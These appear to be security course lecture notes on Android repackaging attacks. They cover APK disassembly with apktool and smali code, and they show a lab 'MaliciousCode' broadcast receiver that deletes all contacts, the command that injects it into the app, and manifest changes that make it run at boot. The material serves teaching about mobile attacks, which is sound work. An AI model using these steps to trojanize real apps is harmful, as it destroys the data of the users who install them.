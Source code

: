 # Week 8 Repackaging Attack and Rooting Attack

## Directory
- [Home](/README.md#table-of-contents)
- [Week 7 SQL Injection and Clickjacking](/week7/README.md#week-7-sql-injection-and-clickjacking)
- **&rarr;[Week 8 Repackaging Attack and Rooting Attack](/week8/README.md#week-8-repackaging-attack-and-rooting-attack)**
- [Week 9 Access Control](/week9/README.md#week-9-access-control)

## 8.2 Part 1: Android Repackacing Attack
([top](#directory))

## 8.3 How the Attack Works
([top](#directory))

### Computer Virus
  - program

||||
|-|-|-|
|jump to `malicious`||
||`program`||
||`malicious`|jump back to start of program|

### Overview of the Repackaging Attack

- download legit app
- disassemble, repackage them with malware
- upload to 3rd party app store

#### binary repackaging
- android uses binary repackaging

#### Binary restructuring
- exe
- need to understand the binary
- harder than Android binary code repackaging

## 8.4 Disassemble APK File
([top](#directory))

|||
|-|-|
|`android project`|java|
|`compile and packaging`||
|`android package (apk file)`|zip|
|`classed.dex`|zip|
|`resource.arsc`|zip|
|`uncompiled resources`|zip|
|`AndroidManifest.xml`|zip|
|sign APK developer's private key||

### APK Structure



- AndroidManifest.xml
- classes.dex
  - bytecode
- res/
- lib/ (sometimes)
- META-INF

#### Process

apk &rarr; unpack &rarr; classes.dex
- disassemble the dex file.
  - assembly code
  - add malware to assembly code
- reassemble to the code
  - modified classes.dex
- APK

### Disassemble the APK File (ubuntu)

#### Disassemble the APK file

```terminal
$ apktool d RepackagingLab.apk
```

#### Assemble the APK file

```terminal
$ apktool b [application_folder]
```

#### APK Structure after Disassembly

- `Android App Package` (APK)
  - `original`
    - `META-INF` (contains data that are used to ensure the integrity of the APK package and system security)
  - `res` (contains resource files, such as animation, color, images, layout etc)
    - `anim`
    - `colo`
    - `drawable`
    - `layout`
    - `values`
  - `smali`
    - `android` (contains android support library code decompiled in smali)
    - `com` (it contains application specific code decompiled in smali)
  - `AndroidManifest.xml` (contains information about app components, name, version, access rights, also references to library file and other)

### Smali Code (Assembly)

#### Java Code
```java
if (flagx==1)
  flagx=2
else
  flag=3
```

#### Smali Code

```smali
const/4 v1, 0x1
if-ne v0, v1, :cond_0
const/4 v2, 0x2
move v0,v2
goto :goto_0
:cond_0
const/4 v2, 0x3
move v0,v2
:goto_0
```

## 8.5 Writing Malicious Code
([top](#directory))

- Modify smali code
  - hard
- add an independent component
  - activity
    - ui
  - service
  - broadcast receiver
    - triggered by broadcast
    - `malicious`

### Malicious Code Example

```java
public class MaliciousCode extends BroadcastReceiver{
    @override
    public void onReceive(Context context, Intent intent){
        ContentResolver contentResolver = context.getContentResolver();
        Cursor cursor = contentResolver.query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null);

        while(cursor.moveToNext()){
            String lookupKey = cursor.getString(cursor.getColumnIndex(ContactsContract.Contacts.LOOKUP_NEXT));
            
            Uri uri = Uri.WithAppendedPath (ContactsContract.Contacts.CONTENT_LOOKUP_URI,lookupKey);
            contentResolver.delete(uri,null,null);
        }
    }
}
```

#### Inject the smali code

```
$ cp MaliciousCode.smali RepackagingLab/smali/com/
```


### Permission-Based Access Control for Android

- Android
  - ask permission abc
  - approved
  - if approved
    - install

#### Request More Permissions

*AndroidManifest.xml*
```xml
<manifest...>
  ...
  <uses-permission android:name="android.permission.READ_CONTACTS"/>
  <uses-permission android:name="android.permission.WRITE_CONTACTS"/>
  <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>

  <application>
     ...
     <receiver android:name="com.MaliciousCode">
       <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED"/>
       </intent-filter>

     </receiver>
  </application>
</manifest>
```